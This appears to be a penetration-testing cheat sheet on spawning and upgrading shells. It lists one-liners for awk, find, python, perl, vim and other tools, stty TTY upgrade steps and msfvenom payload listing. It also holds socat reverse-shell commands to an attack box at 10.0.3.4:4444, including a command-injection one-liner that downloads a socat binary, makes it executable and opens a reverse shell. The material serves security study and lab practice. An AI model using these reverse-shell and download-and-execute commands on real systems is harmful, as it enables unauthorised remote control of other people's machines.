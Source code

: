 ```yaml
---
title: Spawn a shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - terminal
  - shells
---
```

# Spawn a shell

??? abstract "All about shells"
    | **Shell Type** | **Description** |
    | ---- | ------|
    | [`Reverse shell`](reverse-shells.md) | Initiates a connection back to a "listener" on our attack box.  |
    | [`Bind shell`](bind-shells.md)       | "Binds" to a specific port on the target host and waits for a connection from our attack box. |
    | [`Web shell`](web-shells.md)         | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command. |


Webshell is a script written in a language that is executed by a server. Web shell are not fully interactive. 

??? note "Resources for upgrading simple shells"
    - [https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html](https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html).
    - [Cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
    - [Shell creation](https://rosettacode.org/wiki/Execute_a_system_command).
    - [About webshells](https://github.com/BlackArch/webshells).
    


Sidenote: Also, you can generate a webshell by using  msfvenom

## Clasification of shells

On a Linux system, the shell is a program that takes input from the user via the keyboard and passes these commands to the operating system to perform a specific function.

There are three main types of shell connections:

| **Shell Type** |  **Description** | 
| ----------- | -------------- |
| [Reverse shell](reverse-shells.md) |  Initiates a connection back to a "listener" on our attack box. | 
| [Bind shells](bind-shells.md) | "Binds" to a specific port on the target host and waits for a connection from our attack box. | 
| [Web shells](web-shells.md) | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command. |


## Spawn a shell

### awk

```bash
awk 'BEGIN {system("/bin/sh")}'
```


### bash

```bash
# Upgrade shell with running these commands all at once:

SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```


```bash
bash -i

# Using echo
echo 'os.system('/bin/bash')'
```


### find 

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
# This use of the find command is searching for any file listed after the -name option, then it executes awk (/bin/awk) and runs the same script we discussed in the awk section to execute a shell interpreter.

find . -exec /bin/sh \; -quit
# This use of the find command uses the execute option (-exec) to initiate the shell interpreter directly. If find can't find the specified file, then no shell will be attained.
```


### lua

```bash
lua: os.execute(‘/bin/sh’)
```
  

### msfvenom

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  
```

Also msfvenom can use metasploit payloads under “cmd/unix”  to generate one-liner bind or reverse shells. List options with:

```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```



### perl

```bash
perl -e 'exec "/bin/sh";'

perl:  exec "/bin/sh";
```


### python

```bash
 # using python for a pseudo terminal
python -c 'import os; os.system("/bin/sh")'
```

```bash
 # using python for a pseudo terminal
python -c 'import pty; pty.spawn("/bin/bash")'

python3 -c "import pty;pty.spawn('/bin/bash')"
```

### ruby

```bash
ruby:  exec "/bin/sh";
```


### ssh

```bash
/bin/sh -i
```


### socat

```bash
# Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat isn’t installed, there exists other options. There are standalone binaries that can be downloaded from this Github repo: [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

With a command injection vuln, it’s possible to download the correct architecture `socat` binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

On Kali, run:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

and you’ll catch a fully interactive TTY session. It supports tab-completion, SIGINT/SIGSTP support, vim, up arrow history, etc. It’s a full terminal. 

### stty options

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Ctrl-Z
 

# In Kali
$ stty raw -echo
$ fg
```
  
```bash
# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty size
stty rows <num> columns <cols>

# In one line:
reset; export SHELL=bash; export TERM=xterm-256color; stty rows <num> columns <cols>

```

### VIM

```bash
vim -c ':!/bin/sh'
```

**VIM escape**:

```shell-session
vim
:set shell=/bin/sh
:shell
```